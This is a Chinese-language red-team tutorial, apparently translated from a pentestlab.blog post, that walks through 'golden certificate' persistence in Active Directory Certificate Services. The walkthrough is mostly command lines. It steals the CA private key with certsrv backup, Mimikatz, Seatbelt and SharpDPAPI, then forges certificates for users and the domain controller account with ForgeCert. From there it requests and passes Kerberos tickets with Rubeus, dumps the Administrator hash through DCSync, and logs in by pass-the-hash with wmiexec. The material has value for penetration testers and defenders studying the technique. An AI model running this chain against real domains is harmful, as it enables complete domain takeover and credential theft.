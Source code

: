 ## 利用黄金证书劫持域控
域控渗透最常见的域持久性技术之一是黄金票据攻击，它涉及使用“ krbtgt ”的 NTLM 哈希创建 kerberos 票证。“ 帐户。但是在部署了 Active Directory 认证服务 (AD CS) 的服务器的域中，可能会在发生入侵时被滥用以实现域持久性。通过窃取 CA 证书的私钥，红队可以伪造和签署证书以用于身份验证。在部署 Active Directory 证书服务 (AD CS) 期间，域中默认启用基于证书的身份验证。因此，需要将这些系统视为第 0 层资产并得到适当保护。

通过黄金证书执行域持久化需要以下步骤：
1.	证书提取 (CA)
2.	伪造CA证书
3.	获取 Kerberos 票证（DC 的机器账户）
4.	执行pass票证

# 证书提取
CA 证书和私钥存储在 CA 服务器中。使用与系统的 RDP 连接，可以使用“ certsrv.msc ”的备份功能检索这些信息。
<center>
![](/img/利用黄金证书劫持域控/图片 1.png)
</center>
<center>
certsrv – 备份 CA
</center>
在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。
<center>
![](/img/利用黄金证书劫持域控/图片 2.png)
</center>
<center>
certsrv – 私钥和备份位置
</center>
CA 证书将导出为 p12 文件（个人信息交换）。
<center>
![](/img/利用黄金证书劫持域控/图片 3.png)
</center>
<center>
certsrv – 提取的 CA
</center>
但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。

    Seatbelt.exe Certificates
<center>
![](/img/利用黄金证书劫持域控/图片 4.png)
</center>
<center>
Seatbelt – 本地机器
</center>
Mimikatz 还可以与加密存储进行交互，以检索和导出证书和私钥。修补“ CryptoAPI ”和“ KeyIso ”不可导出的密钥将可以从许多密钥提供程序导出。

    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export
<center>
![](/img/利用黄金证书劫持域控/图片 5.png)
</center>
<center>
Mimikatz – 导出证书
</center> 

<center>
![](/img/利用黄金证书劫持域控/图片 6.png)
</center>
<center>
Mimikatz - CA 证书
</center>

证书将以 .DER 和 .PFX 格式提取到磁盘上。
<center>
![](/img/利用黄金证书劫持域控/图片 7.png)
</center>

SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。

    SharpDPAPI.exe certificates /machine
<center>
![](/img/利用黄金证书劫持域控/图片 8.png)
</center>
<center>
SharpDPAPI – 机器证书
</center>

私钥和证书都将显示在控制台中。
<center>
![](/img/利用黄金证书劫持域控/图片 9.png)
</center>
<center>
SharpDPAPI - CA 证书
</center>
 
提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
<center>
![](/img/利用黄金证书劫持域控/图片 10.png)
</center>
<center>
将证书转换为 PFX
</center> 

# 伪造CA证书
Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。

    crypto::scauth /caname:ca /upn:pentestlab@purple.lab
<center>
![](/img/利用黄金证书劫持域控/图片 11.png)
</center>
<center>
伪造CA证书——Mimikatz
</center> 

或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123
<center>
![](/img/利用黄金证书劫持域控/图片 12.png)
</center>
<center>
伪造CA证书-域用户
</center> 

应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123
<center>
![](/img/利用黄金证书劫持域控/图片 13.png)
</center>
<center>
伪造证书-机台账
</center> 

# Kerberos 票证
可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。

    Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123
<center>
![](/img/利用黄金证书劫持域控/图片 14.png)
</center>
<center>
Rubeus – Kerberos 票证 
</center>  
 
<center>
![](/img/利用黄金证书劫持域控/图片 15.png)
</center>
<center>
Rubeus - 域用户票
</center>  

# 通过票证
可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。

    Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123
<center>
![](/img/利用黄金证书劫持域控/图片 16.png)
</center>
<center>
Rubeus - 请求 DC 机器帐户的票证 
</center> 

<center>
![](/img/利用黄金证书劫持域控/图片 17.png)
</center>
<center>
DC 机器帐户 Base64 票证 
</center> 

base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。

    echo "<base64>" | base64 -d > dc$.kirbi
<center>
![](/img/利用黄金证书劫持域控/图片 18.png)
</center>
<center>
将 Base64 票证转换为 Kirby
</center>  

票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。

    Rubeus.exe ptt /ticket:dc$.kirbi
<center>
![](/img/利用黄金证书劫持域控/图片 19.png)
</center>
<center>
Rubus – 通过票证
</center>

由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。

    lsadump::dcsync /user:Administrator
<center>
![](/img/利用黄金证书劫持域控/图片 120.png)
</center>
<center>
Mimikatz – DCSync
</center>

散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。

    python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1
<center>
![](/img/利用黄金证书劫持域控/图片 21.png)
</center>
<center>
WMI 连接 - 域控制器
</center> 


参考链接：
https://github.com/GhostPack/Seatbelt
https://github.com/GhostPack/SharpDPAPI
https://github.com/GhostPack/ForgeCert
https://pentestlab.blog/2021/11/15/golden-certificate/
